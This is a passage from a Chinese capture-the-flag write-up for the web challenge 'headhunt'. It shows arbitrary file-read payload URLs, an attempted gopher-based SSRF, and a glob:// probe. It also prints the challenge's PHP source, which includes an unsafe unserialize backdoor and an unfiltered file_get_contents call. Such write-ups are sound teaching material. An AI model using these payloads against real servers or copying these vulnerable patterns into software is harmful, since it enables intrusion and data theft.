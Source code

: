 **摘要：升级赛web题目headhunt的write up**

---
# 源码读取
打开题目网址，到了一个登录界面，首先看下源代码、抓包、扫目录，没发现什么，然后试着用admin注册下，注册成功登陆之后只有寻访界面，抓包看了下也没什么发现。先不考虑注入的话就只剩下Check按钮了
![20220611220917](https://s2.loli.net/2022/06/11/oqQAzsl3R2xXiD5.png)
点击check发现给出了数据库的账号密码和名称等配置信息，然后看到url为
`http://124.16.75.162:31014/index.php?do=search&file=config.php`的形式，就想到ssrf,又有数据库的信息，就想到用gopher协议攻击下数据库，写马到test.php，访问`?do=search&file=/var/www/html/test.php`有内容但不是我们写的，说明这样行不通
已知信息还是太少了，想着要利用ssrf读取下源码
![20220611222023](https://s2.loli.net/2022/06/11/kVJK1CRuT5v9hgZ.png)
直接构造`?do=search&file=index.php`读到index.php源码如下
```php
<?php
echo "hello";

if (version_compare(PHP_VERSION, '7.0', '<')) {
    die('此程序需PHP版本大于7.0 !');
}

require 'init.php';

$dos = array('index', 'register', 'login', 'user', 'headhunt', 'calculator', 'search', 'backdoor');
//$url = array();
foreach ($dos as $do) {
    $url[$do] = URL_ROOT . '/index.php?do=' .$do;
}


$do = Val('do', 'GET', 0);
if (!in_array($do, $dos)) {
    $do = 'index';
}

require ROOT_PATH . '/source/' . $do . '.php';
```
发现了好多文件，先读取下包含的init.php，因为有些不认识的变量和函数应该是在里面
![20220611222949](https://s2.loli.net/2022/06/11/mh95LN6THDOInvX.png)
又发现了几个重要的包含文件：函数和类，且明确了ROOT_PATH即为网站主目录,读取function.php后发现了Val()函数的实现，即`$_GET['do']`
回到index.php源码，限制了`$do`只能为数组里的动作，而且都有相对应的php源码文件在source目录里，所以`/?do=search`即为读取文件，全部读取下源码看看
首先肯定先看看backdoor
```php
<?php
if(!defined('ALLOW_ACCESS')) { die('Access Denied');}
$payload = $_POST['payload'];
$a = unserialize($payload);
echo $a;
```
发现反序列化漏洞，但是不能直接访问backdoor.php，要有ALLOW_ACCESS，而index.php源码里包含的init.php里定义了ALLOW_ACCESS是真，且index.php可以require在数组里的`$do.php`
接下来再读取下search.php源码，发现果然是ssrf读取文件的源码
```php
<?php
if(!defined('ALLOW_ACCESS')) { die('Access Denied');}
$target = $_GET['file'];
if (isset($target) && is_string($target)) {
    if (strpos($target, "flag") == true) die("forbidden!");
    echo file_get_contents($target);
}
```
所以利用file_get_contents函数构造`?do=search&file=读取的文件`实现任意文件读取，但这里限制了flag只能在`$target`字符串的开头或没有。但我们并不知道flag的位置，也没办法读取目录。我只知道glob协议可以读取目录，在这里试了下`?do=search&file=glob:///*fla*`发现不行，只能靠经验猜了，猜flag的目录猜了好久。